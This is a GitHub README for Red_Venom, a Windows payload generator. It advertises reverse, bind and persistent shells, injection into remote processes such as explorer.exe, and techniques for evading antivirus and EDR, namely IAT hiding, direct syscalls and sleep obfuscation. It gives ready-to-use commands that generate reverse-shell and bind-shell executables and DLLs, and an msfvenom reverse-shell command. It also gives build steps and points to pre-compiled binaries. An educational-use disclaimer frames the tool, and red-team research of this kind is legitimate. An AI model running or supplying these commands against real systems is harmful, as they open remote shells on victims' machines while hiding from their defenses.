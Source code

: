 # 🔴 Red_Venom - Advanced Payload Generation Tool

![image](https://github.com/user-attachments/assets/408d7e07-6d9d-46d3-b53a-a57606b12366)

> Developed by **Y. Janboubi** | Version: `1.0`  
> ⚠️ **Disclaimer**: Red_Venom is intended strictly for educational and research purposes. Unauthorized or malicious use is prohibited.

---

## 📖 Overview

**Red_Venom** is a terminal-based payload generation tool designed for experienced cybersecurity users. It is intended for educational and research purposes, allowing users to generate  shellcode and inject payloads. The tool incorporates multiple advanced evasion techniques to bypass modern security solutions, offering options for custom output formats, obfuscation, timed execution delays (sleep), and targeting specific processes.

---

## ✨ Key Features

- 🔥 **Payload Generation**: TCP reverse shells, bind shells, and persistent shells.
- 💉 **Injection Techniques**: Memory injection (Private/Mapped), API stomping, and process injection (Remote/Local).
- 🛡️ **Evasion Techniques**: IAT hiding, encryption, string hashing, syscall invocation, and sleep obfuscation.
- ⚙️ **Customization**: Configurable IP, port, sleep delays, obfuscation, target processes, and output formats (EXE, DLL).

---

## 🔧 Supported Payload Types

- **Reverse TCP**: Generates a TCP reverse shell, where the target initiates a connection back to the attacker.
- **Bind Shell**: Creates a TCP bind shell, opening a listening port on the target for the attacker to connect to.
- **Persistence Shell**: Maintains a persistent reverse shell connection (EXE format only).

---

## 💉 Supported Injection Types

- **Mapping Injection**: Utilizes mapping memory injection techniques.
- **Private Injection**: Employs private memory injection methods.
- **API Stomping**: Performs local API stomping (EXE format only) to execute shellcode by overwriting legitimate API functions.
- **Process Injection**: General local process injection capabilities.
- **Remote Process Injection**: Facilitates remote process injection, (default: `explorer.exe`).
  
---

## 🛡️ Advanced Evasion Techniques

Red_Venom integrates cutting-edge methods to enhance payload stealth:

- **IAT Hiding**: Conceals Import Address Table entries to evade API monitoring.
- **Obfuscation**: Applies various code and data obfuscation methods to make analysis difficult.
- **Encryption**: Encrypts payloads or sensitive strings for obfuscation.
- **String Hashing**: Replaces plaintext with hashes to bypass static analysis.
- **Brute-Forcing Decryption**: (Contextual) May involve dynamic self-decryption or iterative unlocking of payload stages.
- **Syscalls (System Calls)**: Directly invokes kernel functions, bypassing user-mode API hooks.
- **Sleep Obfuscation**: Introduces configurable delays (via `-s` option) to evade sandbox detection.

---

## 🚀 Usage

**Red_Venom** is a command-line tool designed for advanced customization. Use the following syntax and options to generate and deploy payloads.

![image](https://github.com/user-attachments/assets/d0ddb5c9-c6ed-4d8b-8b5d-b4e6bb55551e)


### 🛠️ Command Syntax

```bash
Red_Venom.exe -t <Payload_Type> -i <IP> -p <Port> [options]
  ```
### 📋 Options

- `-t <Payload_Type>`: Specifies the type of payload (e.g., `Reverse_tcp`, `Mapping_Injection`).
- `-i <IP>`: Sets the listen IP address for TCP payloads.
- `-p <Port>`: Defines the listen port number for TCP payloads.
- `-f <Payload.bin>`: Specifies the raw payload file (e.g., `msfvenom` output) for injection types.
- `-o <Format>`: Determines the output format of the generated payload (EXE, DLL).
- `-s <seconds>`: Enables sleep obfuscation, pausing execution for (30.5) seconds by default. 
- `-obf`: Activates payload obfuscation.
- `-r <Process>`: Specifies the remote process name for injection (e.g., `explorer.exe`).

### 📋 Example Commands

- **Generate a TCP reverse shell:**
  ```bash
  Red_Venom.exe -t Reverse_tcp -i 192.168.1.100 -p 4444 -o EXE
  ```

- **Generate a bind shell with DLL output:**
  ```bash
  Red_Venom.exe -t Bind_Shell -p 5555 -o DLL
  ```

- **Inject a custom payload with obfuscation:**
  ```bash
  Red_Venom.exe -t Remote_P_Injection -f payload.bin -o EXE -obf -r explorer.exe
  ```
  
---

## 🔄 Compatibility

Red_Venom is compatible with raw shellcode generated by tools like `msfvenom`. Example:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 EXITFUNC=thread -o payload.bin
```

---

## ⚙️ Installation

### 📋 Prerequisites

- **C++ Compiler**: GCC or Clang
- **Windows SDK**: Required for Windows builds
- **Git**: For cloning the repository
- **Make**: For building the project

### 🧩 Build Instructions

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/Y-JANBOUBI/RED_VENOM.git
   ```

2. **Navigate to the Project Directory**:
   ```bash
   cd Red_Venom
   ```

3. **Build the Project**:
   ```bash
   make
   ```

---

## 📦 Pre-Compiled Binaries

Pre-compiled binaries for Windows are available in the [Releases](https://github.com/Y-JANBOUBI/RED_VENOM/releases) section of the repository. Download the Windows binary and follow the included instructions.

---

## ⚖️ Legal & Ethical Use

- **Authorized Environments Only**
- **Do Not Use for Malicious Activity**
- **Follow Local Laws and Regulations**

---

## 📬 Contact

For questions, bug reports, contact me at [https://github.com/Y-JANBOUBI].

---

*Developed by Y.Janboubi V1.0*  






